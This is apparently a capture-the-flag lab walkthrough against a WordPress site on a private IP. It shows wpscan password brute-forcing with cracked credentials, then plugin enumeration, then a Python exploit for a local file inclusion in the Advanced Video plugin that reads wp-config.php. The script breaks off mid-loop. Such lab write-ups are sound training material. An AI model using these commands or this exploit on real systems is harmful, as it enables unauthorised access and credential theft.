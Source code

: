 ```bash
wpscan --url https://192.168.220.148:12380/blogblog/ -P /usr/share/wordlists/rockyou.txt -t 50  --disable-tls-checks
```

```txt
[SUCCESS] - garry / football                              
[SUCCESS] - harry / monkey                                                    
[SUCCESS] - scott / cookie                                
[SUCCESS] - kathy / coolgirl 
```

```bash
wpscan --url https://192.168.220.148:12380/blogblog/ --disable-tls-checks --enumerate ap --plugins-detection aggressive
```



<figure><img src="../.gitbook/assets/Pasted image 20231020172828.png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit advanced video
```

| Exploit                                                    | Path                 |
| ---------------------------------------------------------- | -------------------- |
| WordPress Plugin Advanced Video 1.0 - Local File Inclusion | php/webapps/39646.py |

#### Script

```python
import random
import urllib.request
import re
import ssl

# Ignore SSL certificate errors
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

url = "https://192.168.220.148:12380/blogblog/"  # insert HTTPS URL to WordPress

randomID = int(random.random() * 100000000000000000)

# Create a custom opener with SSL context
opener = urllib.request.build_opener(urllib.request.HTTPSHandler(context=context))

objHtml = opener.open(
    url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content = objHtml.readlines()
for line in content:
    numbers = re.findall(r'\d+', line.decode('utf-8'))
```